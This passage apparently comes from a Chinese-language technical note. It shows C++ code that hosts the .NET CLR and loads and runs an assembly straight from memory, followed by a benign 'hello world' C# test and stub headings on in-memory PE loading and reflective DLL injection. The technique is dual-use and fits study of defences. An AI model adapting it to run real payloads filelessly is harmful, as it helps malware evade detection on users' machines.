	SAFEARRAY* args = NULL;

	CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (VOID**)&iMetaHost);
	iMetaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (VOID**)&iRuntimeInfo);
	iRuntimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (VOID**)&iRuntimeHost);
	iRuntimeHost->Start();


	iRuntimeHost->GetDefaultDomain(&pAppDomain);
	pAppDomain->QueryInterface(__uuidof(_AppDomain), (VOID**)&pDefaultAppDomain);

	saBound[0].cElements = ASSEMBLY_LENGTH;
	saBound[0].lLbound = 0;
	SAFEARRAY* pSafeArray = SafeArrayCreate(VT_UI1, 1, saBound);

	SafeArrayAccessData(pSafeArray, &pData);
	memcpy(pData, dotnetRaw, ASSEMBLY_LENGTH);
	SafeArrayUnaccessData(pSafeArray);

	pDefaultAppDomain->Load_3(pSafeArray, &pAssembly);
	pAssembly->get_EntryPoint(&pMethodInfo);

	ZeroMemory(&vRet, sizeof(VARIANT));
	ZeroMemory(&vObj, sizeof(VARIANT));
	vObj.vt = VT_NULL;


	vPsa.vt = (VT_ARRAY | VT_BSTR);
	args = SafeArrayCreateVector(VT_VARIANT, 0, 1);

	if (argc > 1)
	{
		vPsa.parray = SafeArrayCreateVector(VT_BSTR, 0, argc);
		for (long i = 0; i < argc; i++)
		{
			SafeArrayPutElement(vPsa.parray, &i, SysAllocString(argv[i]));
		}

		long idx[1] = { 0 };
		SafeArrayPutElement(args, idx, &vPsa);
	}

	HRESULT hr = pMethodInfo->Invoke_3(vObj, args, &vRet);
	pMethodInfo->Release();
	pAssembly->Release();
	pDefaultAppDomain->Release();
	iRuntimeInfo->Release();
	iMetaHost->Release();
	CoUninitialize();

	return 0;
};

```

执行的C#源码

```csharp
using System;

namespace TEST
{
    class Program
    {
        static int Main(String[] args)
        {
            Console.WriteLine("hello world!");
            foreach (var s in args)
            {
                Console.WriteLine(s);
            }
            return 1;
        }
    }
}
```


## 3. managed代码内存加载执行PE文件

需要自己实现PE加载器


## 4. unmanaged代码内存加载执行PE文件

需要自己实现PE加载器


TODO:反射dll注入